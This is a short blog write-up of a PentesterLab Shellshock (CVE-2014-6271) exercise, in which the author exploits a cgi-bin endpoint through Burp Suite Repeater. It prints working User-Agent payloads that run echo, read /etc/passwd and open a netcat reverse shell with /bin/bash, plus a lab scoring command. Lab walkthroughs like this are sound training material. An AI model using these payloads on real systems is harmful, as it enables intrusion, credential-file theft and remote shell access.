





<div class='daily-hack-box'>
	<table class='table'>
		<thead>
		</thead>
		<tbody>
			<tr>
				<th scope='row'>Challenge</th>
				<td>Exploit the box with CVE-2014-6271 (Shellshock)</td>
			</tr>
			<tr>
				<th scope='row'>Badge</th>
				<td>White Badge (3 of 6)</td>			
			</tr>
			<tr>
				<th scope='row'>Method</th>
				<td>Proxy with Repeater Mode</td>
			</tr>
			<tr>
				<th scope='row'>Link</th>
				<td>
                    <a class='table-link' target='_blank' href='https://pentesterlab.com/exercises/cve-2014-6271'>https://pentesterlab.com/exercises/cve-2014-6271</a>
                </td>
			</tr>
				<th scope='row'>Flag</th>
				<td>
                	
                </td>
			</tr>
		</tbody>
	</table>
</div>

### Daily Hack #13 Writeup

I had done several shellshock labs and CTFs problems before so I will cruise through this one briefly.  First, I load up the web page with a proxy and Burp Suite open.  Immediately, I can identify a possible shellshock attack vector through the `cgi-bin` connection.


<figure>
    
    <figcaption>Finding cgi-bin path</figcaption>
</figure>

<br>

Next, I send this to the repeater so I can modify this request.


<figure>
    
    <figcaption>Sending to Repeater</figcaption>
</figure>

<br>


Test to see if this server is vulnerable to the shellshock vulnerability through this User Agent command:

```
() { :;}; echo; echo 'vulnerable to shellshock'
```


<figure>
    
    <figcaption>Testing for Shellshock Vulnerability</figcaption>
</figure>

<br>


Note, I prepend the echo command before the actual payload command to avoid issues with headers when trying to read results. Another popular test is a User Agent command like:

```
() { :;}; echo $(</etc/passwd)
```

Which prints all of the `/etc/passwd` file.  Typically, I would follow this with a User Agent command to get root, such as:

```
() { :;}; /usr/bin/nc myIPaddress 4444 -e /bin/bash
```

However, since the environment doesn't always allow this, I simply use the scoring system to complete the challenge.


```
() { :;}; /usr/local/bin/score b12efbda-83b0-4201-9689-80fec51866cd
```


<figure>
    
    <figcaption>Scoring on the Server</figcaption>
</figure>

<br>

And now I see my challenge has been completed!


<figure>
    
    <figcaption>Completed the Exercise</figcaption>
</figure>

<br><br>
